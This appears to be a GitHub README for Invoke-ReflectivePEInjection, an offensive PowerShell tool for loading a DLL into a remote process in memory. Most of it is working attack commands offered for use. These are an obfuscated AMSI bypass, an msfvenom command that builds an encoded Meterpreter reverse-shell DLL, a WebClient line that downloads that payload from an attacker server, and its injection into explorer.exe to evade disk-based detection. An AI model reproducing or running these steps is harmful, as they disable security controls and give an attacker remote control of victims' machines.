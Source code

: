 # Invoke-ReflectivePEInjection

The script performs reflection to avoid writing assemblies to disk, after which it parses the desired PE file. It has two separate modes, the first is to reflectively load a DLL or EXE into the same process, and the second is to load a DLL into a remote process.
Since the complete code is almost 3000 lines, we are not going to cover the code itself but rather its usage. We must specify a DLL or EXE as an array of bytes in memory, which allows us to download and execute it without touching the disk.

For this exercise, we will use a Meterpreter DLL. To reflectively load a Meterpreter DLL in explorer.exe, we are going to download it using the PowerShell DownloadData method, place it in a byte array, and look up the desired process ID.
In order to execute the required commands, we must open a PowerShell window with "PowerShell -Exec Bypass", which allows script execution. Once the window is open, we will run the commands below.

# Prerequesities:
1. Bypass PowerShell AMSI:
```powershell
[Ref].Assembly.GetType('System.Management.Automation.Amsi'+[char]85+'tils').GetField('ams'+[char]105+'InitFailed','NonPublic,Static').SetValue($null,$true)
```

# How to use
1. Create a DLL payload using msfvenom and upload it to the attackers web server (_start metasploit listener with same payload parameters_):
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 prependfork=true -f dll -t 300 -e x64/xor_dynamic -o met.dll
```


2. Upload the _Invoke-ReflectivePEInjection.ps1_ script in this repository to the target machine and import it using `Import-Module`:
```powershell
Import-Module .\Invoke-ReflectivePEInjection.ps1
```


3. Load the DLL (or .exe) into a byte array and retrieve the `explorer` process ID.
  (**NOTE:** _change the process based on your target environment_):
```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.191/met.dll')
$procid = (Get-Process -Name explorer).Id
```


4. Supply the byte array (`-PEBytes`) and process ID (`-ProcId`) and execute the script:
```powershell
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

**Note:**
Ignore the `VoidFunc` error that appears after running the script, it is purely cosmetic:
![image](https://github.com/user-attachments/assets/61e829d2-af06-4188-a0d6-871a865c54ad)

